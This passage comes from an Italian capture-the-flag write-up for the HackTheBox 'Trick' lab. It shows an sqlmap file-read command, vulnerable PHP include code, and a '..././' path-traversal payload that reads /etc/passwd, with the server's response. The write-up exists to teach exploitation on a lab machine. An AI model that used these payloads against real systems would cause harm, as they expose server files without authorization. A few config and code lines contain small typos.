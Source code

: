 ```
server {
  listen 80;
  listens [::]:80;

  server_name preprod-marketing.trick.htb;

  root /var/www/market;
  index index.php:

  location / {
    try_files $uri/ =404;
  }
  
    location ~ \.php$ {
      include snippets/fastcgi-php.conf;
      fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
    }
}
```

Quindi ci leggiamo l'index di tale pagina

```shell
└─$ sqlmap -r burp.req --batch --dbms mysql --threads 10 --file-read=/var/www/market/index.php
```

Interessante ciò che troviamo poichè ci suggerisce la presenza di **LFI** sul parametro *page*, nella pagina *preprod-marketing.trick.htb*

```php
<?php
$file = $_GET['page'];

if(!isset(file) || ($file=="index.php")) {
  include("/var/www/market/home.html"); 
}
else {
  include("/var/www/market/".str_replace("../","",$file));
}
?>
```

## 5. LFI
Superare l'escaping è molto semplice poichè viene tolto solo "../" quindi, per bypassare tale replace basta inserire "..././".

Arrivati a questo punto, da burp proviamo a inviare un payload del genere fino a quando non avremo il risultato: `page=..././etc/passwd`

Trovata "la distanza" corretta: `GET /index.php?page=..././..././..././..././..././..././etc/passwd`

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sat, 09 Jul 2022 12:44:44 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 2351


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```